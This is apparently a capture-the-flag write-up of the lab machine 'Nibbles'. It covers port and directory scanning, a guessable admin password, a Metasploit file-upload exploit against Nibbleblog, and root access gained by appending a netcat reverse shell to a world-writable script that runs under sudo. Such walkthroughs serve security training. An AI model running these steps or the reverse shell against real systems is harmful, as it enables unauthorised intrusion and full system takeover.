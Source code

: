 # Nibbles (easy)

### Recon

---

**Finding open ports**

I started the challenge by performing a port scan

```bash
sudo nmap -sC -sV -A -p- -T4 10.10.10.75
```

![image.png](image.png)

I can see that there are two open ports: 80 and 22.

- Port 22 is an OpenSSH server.
- Port 80 is an Apache web server.

**Searching source code**

For me, this looks like a health check page.

![image.png](image%201.png)

So, by instinct, I just check the source code. LFG,  i found a new directory.

![image.png](image%202.png)

**Enumerating directory**

Then, I enumerated directories and pages using Gobuster.

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

![image.png](image%203.png)

**Discover the Technology Stack**
I quickly check the technology stack using the command: `whatweb 10.10.10.75`

![image.png](image%204.png)

So i did a quick google search `Nibbleblog cve` it showed that unrestricted file upload vulnerability in the My Image plugin in Nibbleblog before 4.0.5 allows remote administrators to execute arbitrary code by uploading a file with an executable extension

**Identifying the Nibbleblog Version in Use**

I can confirm this by reading at `http:10.10.10.75/nibbleblog/README`

![image.png](image%205.png)

**Retrieving Admin Credentials for Login via admin.php**

- Username: I manage to find the username by checking [`http://10.10.10.75/nibbleblog/content/private/users.xml`](http://10.10.10.75/nibbleblog/content/private/users.xml) (username = admin)

![image.png](image%206.png)

- Password: The password was definitely harder to find. I searched through all the files and found a hint suggesting that the password might be in the title. (password: nibbles)
    
    ![image.png](image%207.png)
    

### Applying CVE

---

### Testing cve

Since I was aware of the CVE, I went straight to Plugins and configured `MyImage`.

![image.png](image%208.png)

So, I tested the functionality by creating a `test.php` file containing

```bash
<?php phpinfo(); ?>
```

![image.png](image%209.png)

**Finding where the file is uploaded**

So i went back to search up all the directories and i found out that the file was uploaded at [`http://10.10.10.75//nibbleblog/content/private/plugins/my_image/`](http://10.10.10.75//nibbleblog/content/private/plugins/my_image/)

![image.png](image%2010.png)

LFG !!! We can see that the file is renamed to image.php

![image.png](image%2011.png)

**Metasploit → Nibbler user**

I start msfconsole and I search for `search nibble`

![image.png](image%2012.png)

Then `use exploit/multi/http/nibbleblog_file_upload` . Now we set PASSWORD, RHOSTS, RPORT, TARGETURI and USERNAME.

- use exploit/multi/http/nibbleblog_file_upload
- set RHOSTS 10.10.10.75
- set RPORT 80
- set USERNAME admin
- set PASSWORD nibbles
- set TARGETURI /nibbleblog/
- set LHOST [tun0 ip]
- set LPORT 4444
- exploit

![image.png](image%2013.png)

![image.png](image%2014.png)

NOW LF around and find out

![image.png](image%2015.png)

![image.png](image%2016.png)

![image.png](image%2017.png)

**Privilege Escalation**

Currently we are under nibbler user privilege now we will try to escalate our privilege

![image.png](image%2018.png)

I used the command `sudo -l` to display a list of commands that the current user is allowed to execute with `sudo`, as defined in the system's sudoers configuration.

![image.png](image%2019.png)

The `sudo -l` output shows that the user `nibbler` can run `/home/nibbler/personal/stuff/monitor.sh` as `root` without needing a password (`NOPASSWD`). This is a potential security risk because:

1. **Writable Script**: If `monitor.sh` is writable by `nibbler`, it can be modified to include malicious commands, allowing privilege escalation.
2. **Command Injection**: If the script takes input without sanitization, it could allow executing arbitrary commands as `root`.

I unzip `personal.zip`

![image.png](image%2020.png)

I then checked the permissions of [`monitor.sh`](http://monitor.sh/). The file is world-writable (w for owner, group, and others).

![image.png](image%2021.png)

Then I  appended my shell to the end (I borrowed this payload from 0xdf) 

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [tun0] [nc port] > /tmp/f" >> [monitor.sh](http://monitor.sh/)
```

- **`rm /tmp/f;`**:
    - Removes any pre-existing `/tmp/f` to avoid conflicts.
- **`mkfifo /tmp/f;`**:
    - Creates `/tmp/f` as a named pipe.
- **`cat /tmp/f`**:
    - Reads data (commands from the attacker) coming through the named pipe.
- **`> /tmp/f`**:
    - Writes the output of the shell back into the pipe to be sent to the network (attacker's machine).

![image.png](image%2022.png)

GG, we can find root flag in `/root` 

![image.png](image%2023.png)